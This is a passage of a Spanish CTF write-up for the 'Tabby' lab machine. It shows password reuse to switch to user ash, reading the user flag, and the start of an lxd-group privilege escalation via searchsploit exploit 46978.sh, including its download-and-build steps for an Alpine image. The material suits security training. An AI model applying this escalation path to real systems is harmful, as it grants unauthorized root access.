Y ya tendremos la contraseña del .zip, al no ver nada interesante dentro del zip, podríamos intentar a usar esta contraseña con el usuario **ash**:

```
tomcat@tabby:/home$ su ash
Password: 
ash@tabby:/home$ 
```

Efectivamente, funciona, por lo que ya tendremos la **user flag**:

```
ash@tabby:~$ cat user.txt 
4bf2198898373cd57...
```

## Escalada de privilegios

Usando la herramienta **linenum.sh**, podemos ver que el usuario **ash** está en un grupo extraño llamado **lxd**:

```
[+] We're a member of the (lxd) group - could possibly misuse these rights!
uid=1000(ash) gid=1000(ash) groups=1000(ash),4(adm),24(cdrom),30(dip),46(plugdev),116(lxd)
```

Buscando información relacionada a esto, encontramos que los usuarios con este grupo pueden crear e inicar containers, además de que encontrarmos un exploit:

```
❯ searchsploit lxd

----------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                       |  Path
----------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Ubuntu 18.04 - 'lxd' Privilege Escalation                                                                                                            | linux/local/46978.sh
----------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

### LXD

Seguiremos los pasos del script para poder conseguir root:

```
# Step 1: Download build-alpine => wget https://raw.githubusercontent.com/saghul/lxd-alpine-builder/master/build-alpine [Attacker Machine]
# Step 2: Build alpine => bash build-alpine (as root user) [Attacker Machine]
# Step 3: Run this script and you will get root [Victim Machine]
# Step 4: Once inside the container, navigate to /mnt/root to see all resources from the host machine
```
